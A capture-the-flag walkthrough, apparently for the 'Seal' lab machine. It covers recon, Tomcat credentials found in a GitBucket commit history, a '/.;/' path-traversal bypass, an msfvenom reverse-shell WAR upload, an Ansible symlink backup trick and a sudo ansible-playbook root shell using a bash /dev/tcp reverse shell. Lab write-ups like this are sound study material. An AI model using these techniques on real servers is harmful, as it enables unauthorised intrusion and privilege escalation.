 # Seal

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.190
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 06:12 EDT
Nmap scan report for 10.129.95.190
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

### Vegetables

Port 443 hosts a market page:

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

We can do a `gobuster` scan on the website to find what it is available:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u https://10.129.95.190/ -k -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.95.190/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/03 06:16:19 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> http://10.129.95.190/images/]
/admin                (Status: 302) [Size: 0] [--> http://10.129.95.190/admin/]
/icon                 (Status: 302) [Size: 0] [--> http://10.129.95.190/icon/]
/css                  (Status: 302) [Size: 0] [--> http://10.129.95.190/css/]
/js                   (Status: 302) [Size: 0] [--> http://10.129.95.190/js/]
/manager              (Status: 302) [Size: 0] [--> http://10.129.95.190/manager/]
```

There's a `/manager` and `/admin` directory. The former returns 403, while the latter returns an error from Tomcat:

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

Interesting. Let's take a look at port 8080.

### GitBucket --> Tomcat Creds

Port 8080 is hosting a GitBucket instance:

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

We can create a new account and sign in to see if there are any existing repositories. Straight away, we see tons of push requests to the Market repository.

<figure><img src="../../../.gitbook/assets/image (122) (4).png" alt=""><figcaption></figcaption></figure>

From this, we can find the changes made to the repository. From one of them, we can view the password for the administrator panel by viewing changes made to `tomcat-users.xml`.&#x20;

<figure><img src="../../../.gitbook/assets/image (185) (3).png" alt=""><figcaption></figcaption></figure>

However, we still cannot access the portal.&#x20;

### Directory Traversal --> RCE

While reading Hakctricks for Tomcat vulnerabilities, I found this:

{% embed url="https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/" %}

So by using `/;/`, we might be able to bypass the 403 given earlier. This works for this machine.

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Using `tomcat:42MrHBf*z8{Z%`, we can access the Tomcat dashboard:

<figure><img src="../../../.gitbook/assets/image (154) (5).png" alt=""><figcaption></figcaption></figure>

Now we just need to generate a reverse shell with a `msfvenom`.&#x20;

```
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war -o pwn.war      
Payload size: 13319 bytes
Final size of war file: 13319 bytes
Saved as: pwn.war
```

Then, we just need to upload this and run it. However, I did get blocked the first time when trying to upload. Reading more into the exploit, we can apparently append `/.;/` anywhere within the URL to bypass the check. After some trial and error, this URL worked:

{% code overflow="wrap" %}
```
https://10.129.95.190/manager/.;/html/upload?org.apache.catalina.filters.CSRF_NONCE=5F28315713273679760DD841AB5F1B53
```
{% endcode %}

Then, we can run our file and get a shell:

<figure><img src="../../../.gitbook/assets/image (156) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Luis

We couldn't access the user flag as `tomcat`. While looking around, I found some interesting files in `/opt`.&#x20;

```
tomcat@seal:/opt$ ls
backups
tomcat@seal:/opt$ cd backups/
tomcat@seal:/opt/backups$ ls
archives  playbook
```

Within the `/playbook` directory, there was a YAML playbook script for Ansible that seems to be running every minute or so:

```
tomcat@seal:/opt/backups/playbook$ ls
run.yml
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files
```

This takes is used for backing the web directory up, and for some reason the `copy_links` variable has been set to True, indicating that this playbook follows symlinks. As such, the exploit is to basically create a symlink between the user's home directory and one of the files being backed up.&#x20;

Afterwards, we can take the newest backup and open it to find the user's home directory has also been backed up.&#x20;

```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7  2021 .
drwxr-xr-x 3 root root  4096 May  6  2021 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

The `uploads` file is used because we have write access to it. Afterwards, we just need to open the backup made and head to the `uploads` file.&#x20;

```
tomcat@seal:/dev/shm$ tar zxf backup-2023-05-03-10\:42\:32.gz --force-local
tomcat@seal:/dev/shm$ ls
backup-2023-05-03-10:42:32.gz  dashboard  spare.gz
tomcat@seal:/dev/shm/dashboard/uploads$ ls -la
total 0
drwxr-x--- 3 tomcat tomcat  60 May  3 10:46 .
drwxr-x--- 7 tomcat tomcat 160 May  7  2021 ..
drwxr-x--- 9 tomcat tomcat 280 May  7  2021 luis
```

We can grab the user flag and also his SSH private key!

### To Root

Now that we are `luis`, we can check our `sudo` privileges:

```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

So we can create our own playbook for a `root` reverse shell basically. I made one like this:

```
- hosts: localhost
  tasks:
  - name: shell
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'
```

Then, we can run the playbook and get a reverse shell as `root`.

```
$ nc -lvnp 4444
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.95.190] 49578
root@seal:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted!
